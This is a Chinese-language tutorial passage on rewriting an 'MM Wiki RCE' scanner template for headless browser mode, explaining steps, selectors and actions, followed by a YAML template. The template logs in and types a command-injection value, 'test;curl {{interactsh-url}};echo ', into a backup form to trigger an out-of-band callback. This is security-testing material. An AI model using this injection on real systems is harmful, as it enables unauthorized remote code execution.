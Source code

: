 为了演示一些常见动作，让我们重新编写我们的MM Wiki RCE模板以使用无头模式。

主要模板数据位于"headless"字段下。这应该包含”steps“(一系列动作)、”matchers“和”extractors“。

每个动作都需要参数，例如navigate动作的URL或text动作的文本值。许多常见的动作需要一个选择器来精确指出动作适用于哪个DOM元素，例如<input>或<button>元素。无头模板引擎提供了集中选择器类型，包括XPath、正则表达式或CSS选择器（ID或类）。在示例模板中，我们使用XPath选择器将click和text动作与响应的表单元素关联起来。

我们将MM Wiki RCE模板转换为使用无头模式交互的版本，如下所示：
```yaml
id: mmwiki-rce-headless
 
info:
  name: MMWiki RCE Headless Mode
  author: me
  severity: critical
 
headless:
  - steps:
      - action: navigate
        args:
          url: "{{BaseURL}}/register.php"
      - action: waitload
      - action: text
        args:
          by: xpath
          value: 65aca3e27440558a
          xpath: /html/body/div/form/div/input[1]
      - action: text
        args:
          by: xpath
          value: 65aca3e27440558a
          xpath: /html/body/div/form/div/input[2]
      - action: click
        args:
          by: xpath
          xpath: /html/body/div/form/div/button
      - action: waitload
      - action: navigate
        args:
          url: "{{BaseURL}}/index.php"
      - action: waitload
      - action: text
        args:
          by: xpath
          value: 65aca3e27440558a
          xpath: /html/body/div/form/div/input[1]
      - action: text
        args:
          by: xpath
          value: 65aca3e27440558a
          xpath: /html/body/div/form/div/input[2]
      - action: click
        args:
          by: xpath
          xpath: /html/body/div/form/div/button[1]
      - action: waitload
      - action: navigate
        args:
          url: "{{BaseURL}}/backup_db.php"
      - action: waitload
      - action: text
        args:
          by: xpath
          value: "test;curl {{interactsh-url}};echo "
          xpath: /html/body/form/input[1]
```